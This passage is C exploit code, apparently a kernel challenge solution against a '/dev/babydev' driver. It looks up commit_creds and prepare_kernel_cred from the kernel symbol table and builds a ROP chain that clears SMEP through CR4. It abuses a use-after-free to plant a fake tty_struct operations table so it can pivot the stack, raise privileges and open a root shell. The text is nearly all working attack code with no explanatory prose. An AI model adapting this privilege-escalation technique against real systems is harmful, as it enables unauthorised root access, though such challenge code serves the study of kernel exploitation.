 ```c
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t rop[0x20], p = 0;
    rop[p++] = POP_RDI_RET;
    rop[p++] = 0x6f0;
    rop[p++] = MOV_CR4_RDI_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = getRootPrivilige;
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = IRETQ_RET;
    rop[p++] = getRootShell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;

    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;

    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    size_t fake_tty[0x20];
    int fd3 = open("/dev/ptmx", 2);
    read(fd2, fake_tty, 0x40);
    fake_tty[3] = fake_op;
    write(fd2, fake_tty, 0x40);

    write(fd3, buf, 0x8);

    return 0;
}
```